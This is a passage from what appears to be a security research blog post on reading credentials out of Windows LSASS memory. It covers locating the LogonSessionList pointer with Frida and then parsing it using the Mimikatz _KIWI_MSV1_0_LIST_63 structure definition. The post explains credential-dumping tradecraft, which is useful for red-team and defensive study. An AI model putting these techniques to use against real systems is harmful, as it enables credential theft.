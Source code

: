 ![Frida output demonstrating the address of LogonSessionList](/img/finding-logonsessionlist.png)

## Parsing LogonSessionList

Now we're getting underway - with no hooking or symbol enumeration required, we've got a pointer to the *LogonSessionList* variable. But before we can convert this into actionable credential material, we need to parse it. Once again, the Mimikatz source code comes to our rescue here - these are undocumented structures, but gentilkiwi's code includes [implementations for many of them](https://github.com/gentilkiwi/mimikatz/blob/master/mimikatz/modules/sekurlsa/kuhl_m_sekurlsa_utils.h). For this specific case - Windows 10 on x64 - we will want to use *_KIWI_MSV1_0_LIST_63*:

```c
typedef struct _KIWI_MSV1_0_LIST_63 {
	struct _KIWI_MSV1_0_LIST_63 *Flink;	//off_2C5718
	struct _KIWI_MSV1_0_LIST_63 *Blink; //off_277380
	PVOID unk0; // unk_2C0AC8
	ULONG unk1; // 0FFFFFFFFh
	PVOID unk2; // 0
	ULONG unk3; // 0
	ULONG unk4; // 0
	ULONG unk5; // 0A0007D0h
	HANDLE hSemaphore6; // 0F9Ch
	PVOID unk7; // 0
	HANDLE hSemaphore8; // 0FB8h
	PVOID unk9; // 0
	PVOID unk10; // 0
	ULONG unk11; // 0
	ULONG unk12; // 0 
	PVOID unk13; // unk_2C0A28
	LUID LocallyUniqueIdentifier;
	LUID SecondaryLocallyUniqueIdentifier;
	BYTE waza[12]; /// to do (maybe align)
	LSA_UNICODE_STRING UserName;
	LSA_UNICODE_STRING Domaine;
	PVOID unk14;
	PVOID unk15;
	LSA_UNICODE_STRING Type;
	PSID  pSid;
	ULONG LogonType;
	PVOID unk18;
	ULONG Session;
	LARGE_INTEGER LogonTime; // autoalign x86
	LSA_UNICODE_STRING LogonServer;
	PKIWI_MSV1_0_CREDENTIALS Credentials;
	PVOID unk19;
	PVOID unk20;
	PVOID unk21;
	ULONG unk22;
	ULONG unk23;
	ULONG unk24;
	ULONG unk25;
	ULONG unk26;
	PVOID unk27;
	PVOID unk28;
	PVOID unk29;
	PVOID CredentialManager;
} KIWI_MSV1_0_LIST_63, *PKIWI_MSV1_0_LIST_63;
```
